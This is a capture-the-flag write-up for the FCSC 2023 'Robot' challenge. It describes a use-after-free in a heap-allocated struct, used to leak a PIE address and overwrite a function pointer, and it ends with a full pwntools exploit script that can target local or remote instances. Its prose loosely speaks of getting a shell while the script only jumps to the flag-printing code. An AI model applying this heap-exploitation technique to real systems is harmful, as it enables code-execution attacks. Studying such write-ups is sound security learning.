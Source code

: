 +++
title = "FCSC 2023 | Robot"
+++

# Intro
So, first in first what does we have to do ? After a fast analyse of the source code we can see that the function who's interesting is `admin`:

```c
void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
	char result[65];

	SHA256((const unsigned char *) pwd, strlen(pwd), hash);

	for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
		sprintf(result + (i * 2), "%02x", hash[i]);
	}

	if (rstcmp(result, encrypted) == 0) {
		execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
		perror("execl");
		exit(2);
	} else {
		puts("ERROR: wrong password!");
	}
}
```

it's a comparaison between our input hashed and a predefined hash, we don't are in a crypto chall so we don't care about that, our objective is to jump directly to the execl to print the flag.

# Exploitation

## Actual situation
Now it's exploit time ! In first we can see that when a user create a robot, this robot is stored in the heap, to do this the program alloc a `struct` called `robot` who contains one chars of 16bytes and two pointers so the chunk allocated will be of `32bytes` other interesting things is that when we read the manual the program will read the 32bits of the first chunk stored !

## Exploit - leak
So now, we can understand how we are going to exploit this thing !

In first we going to allocate a first chunk by create a new robot so the heap will look like this:
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *bleep       |  32 bytes
|       *rool        |
+--------------------+
```
So if we free the chunk and then create a new manuel, malloc will allocate the manuel into our older freed chunk were we have the metadata of the chunk with an address to leak the PIE

## Exploit - CE
To gain a RCE we'll overwrite the pointers of the function bleep and replace it with the `execl` function, with this we can call `execl` with `/bin/sh` as parameter and get a shell

firstly we're going to create a new robot so the freed chunk will be realocated
and we create a new manuel and write 16 bytes and then the `execl` function address, to rewrite the bleep pointer
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *execl       |  32 bytes
|       *roll        |
+--------------------+
```

then we trigger the `bleep` function by typing 2 and tada ! we got our flag !

# Exploitation - exploit

```python
#!/bin/python
from pwn import *
from sys import argv

def recv_header(io):
    io.recvline()
    for i in range(4):
        io.recvline()

def create(io, data="Botman"):
    recv_header(io)
    io.sendline(b'1')
    io.sendlineafter(b"> Comment vous l'appelez ?\n", data)
    io.recvline()
    io.recvline()
    return 'robot created'

def manuel(io, data="data"):
    recv_header(io)
    io.sendline(b'4')
    io.sendlineafter(b"Vous commencez \xc3\xa0 r\xc3\xa9diger le mode d'emploi...\n", data)
    io.recvline()
    return 'manuel created'

def delete(io):
    recv_header(io)
    io.sendline(b'3')
    for i in range(3):
        io.recvline()
    return 'robot deleted'

def show(io):
    recv_header(io)
    io.sendline(b'2')
    return io.recvline()

def read(io):
    recv_header(io)
    io.sendline(b"5")
    io.recvline()
    return io.recvline()

def exploit(io, elf):
    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16)
    leak = read(io)
    leak = leak[leak.index(b'\xfc'):][:-2]

    hex_values = [hex(byte)[2:].zfill(2) for byte in leak if byte != 0]
    hex_string = bytes.fromhex((''.join(hex_values)))[:8][::-1]
    hex_int = int.from_bytes(hex_string, 'big')
    leak = int(f'0x0000{hex_int:012x}', 16)

    flag = leak + 0x180
    
    print("leak :" + hex(leak))
    print("flag :" + hex(flag))

    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16 + p64(flag))
    print(show(io))

if __name__ == "__main__":
    usage = '''
usage: ./exploit.py [binary] ?debug
       ./exploit.py remote [binary] [ip] [port] ?debug
       ./exploit.py [binary] ?gdb [command]

       default command = 'continue'
'''

    if len(argv) <= 1:
        print('error: no arguments specified\n'+usage)
        exit(0)

    elif len(argv) <= 5 and argv[1] != 'remote':
        context.binary = elf = ELF(argv[1])
        context.terminal = ["tmux", "splitw", '-h']
        p = process()
        if "gdb" in argv: gdb.attach(p, argv[-1]) if argv[-1] != 'gdb' else gdb.attach(p, 'continue')
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p,elf)
    elif len(argv) <= 6 and argv[1] == "remote":
        context.binary = elf = ELF(argv[2])
        p = remote(argv[3], int(argv[4]))
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p, elf)
    elif len(argv) > 5:
        print('error: too much params specified\n' + usage)
        exit(0)
    elif len(argv) <= 3:
        print('error: you forgot ip or/and port\n' + usage)
        exit(0)
    else:
        print(usage)
```
